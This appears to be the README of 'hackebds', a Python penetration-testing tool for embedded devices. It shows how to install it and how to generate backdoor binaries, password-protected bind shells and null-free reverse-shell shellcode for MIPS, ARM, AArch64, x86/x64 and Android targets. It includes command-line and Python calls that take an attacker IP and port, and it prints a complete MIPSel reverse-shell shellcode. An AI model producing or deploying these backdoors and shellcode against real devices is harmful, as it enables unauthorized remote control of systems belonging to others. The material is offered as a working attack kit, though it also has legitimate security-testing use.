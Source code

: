 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language，**Has been updated to python3**

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

3.  Fixed some bugs that the reverse_shellcode and reverse_backdoor **ports were selected too big**, and **added the function of generating bindshell with specified ports and passwords under x86 and x64**，**and beautified the generation process****（This feature will be updated to various architectures）**
    Add support armvelv7_bind_shell(2022.10.27)，

4.  Removed the generation sleep time of shellcode, and added mips_ bind_ Shell, reverse of x86 and x64 small end_ shell_ Backdoor, the mips that are expected to be interrupted by mips_ bind_ Shell, which solves the error of password logic processing in the bindshell in mips，Joined aarch64_ bind_ shell

5.  Support command line generation backdoor and shell code, characterized by light, small, efficient and fast

## install

```
pip install hackebds
pip install -U hackebds
```

![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)

#### Instructions for use

When importing this module will import the pwn module

Please install the corresponding binutils environment before use
expample:

```
apt search binutils | grep arm（You can replace it here）
apt install binutils-arm-linux-gnueabi/hirsute
```

1. Use the command line to generate the backdoor file name, shellcode, binshell, etc

   ![image-20221102192432828](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102192432828.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231
   ```

   ![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)
   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```
   ![image-20221102183017775](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png)
   
   ```
   hackebds -reverse_ip 0.0.0.0 -reverse_port 8081 -arch armelv7 -res bind_shell -passwd 1231#
   ```
   ![image-20221102182939434](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png)
   
2. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell

```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
```

（Note that the maximum password length is 4 characters for x86（32bits） and 8 characters for x64（64bits））

```
>>> mipsel_backdoor("127.0.0.1",5566)
[+] reverse_ip is: 127.0.0.1
[+] reverse_port is: 5566
[*] waiting 3s
[+] mipsel_backdoor is ok in current path ./
>>>
```

![image-20221028144512270](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png)

```
>>> from hackebds import *
>>> x86_bind_shell(4466,"doud")
[+] bind port is set to 4466
[+] passwd is set to 'doud'
0x0000000064756f64
[*] waiting 3s
[+] x86_bind_shell is ok in current path ./
>>>
```

![image-20221028143802937](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png)

Then connect to the port bound to the device (password exists)

![image-20221028144136069](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png)

2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
```

example:

```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```

## chips and architectures

Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating

 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3

 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation

 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

 2022.6.27 0.1.0 Added Android backdoor generation

 2022.10.26 0.1.5 Fixed some problems and added some automatic generation functions of bindshell specified port passwords

 2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

 2022.11.1 Removed the generation sleep time of shellcode, and added mips_ bind_ Shell, reverse of x86 and x64 small end_ shell_ Backdoor, the mips that are expected to be interrupted by mips_ bind_ Shell, which solves the error of password logic processing in the bindshell in mips

 2022.11.2 Joined aarch64_ bind_ shell


## One-click build environment

To be added
